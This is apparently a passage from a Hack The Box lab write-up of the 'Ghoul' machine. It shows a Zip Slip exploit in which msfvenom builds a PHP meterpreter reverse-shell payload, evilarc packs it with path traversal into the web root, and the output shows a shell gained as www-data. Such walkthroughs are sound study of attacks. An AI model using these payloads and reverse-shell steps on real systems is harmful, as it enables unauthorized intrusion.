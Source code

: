 ![](/assets/images/htb-writeup-ghoul/upload_zip.png)

The image upload form checks that the file signature is a JPEG.

![](/assets/images/htb-writeup-ghoul/upload_jpg_ok.png)

If I try to upload any other file type I get the following error message.

![](/assets/images/htb-writeup-ghoul/upload_jpg_nok.png)

The same checks are enforced for ZIP files, here's a successful upload for a ZIP file:

![](/assets/images/htb-writeup-ghoul/upload_jpg_ok.png)

And here's the error when uploading another file type:

![](/assets/images/htb-writeup-ghoul/upload_jpg_nok.png)

So it seems I can only upload ZIP and JPG files and I don't know where they are stored. I ran gobuster to try to find an upload folder or something on port 8080 but I didn't find anything.

### Getting a shell with Zip Slip

There's a well known arbitrary file overwrite vulnerability called Zip Slip that affects multiple projects, including Java. The gist of it is we can craft a malicious zip file  that when extracted will place the content to an arbitrary location of our choosing. Normally, using file traversal characters would be forbidden but the vulnerability here allow such characters to be processed by Java. In this case, we want to place a reverse shell payload somewhere on the webserver where we can access it and trigger it.

Details on the vulnerability can be found here: [https://github.com/snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability)

To generate the zip files, I used the [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) python tool:

```
# msfvenom -p php/meterpreter/reverse_tcp -o met.php LHOST=10.10.14.23 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1112 bytes
Saved as: met.php
```

```
# python evilarc.py -f met.zip -o unix -p "../../../../../../var/www/html" met.php
Creating met.zip containing ../../../../../../../../../../../../../../var/www/html/met.php
```

After creating the archive, I uploaded it then triggered the meterpreter payload by browsing to it `/met.php`

```
[*] Started reverse TCP handler on 10.10.14.23:4444
msf5 exploit(multi/handler) > [*] Encoded stage with php/base64
[*] Sending encoded stage (51106 bytes) to 10.10.10.101
[*] Meterpreter session 1 opened (10.10.14.23:4444 -> 10.10.10.101:46874) at 2019-05-06 21:41:05 -0400

meterpreter > shell
Process 1180 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Aogiri:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
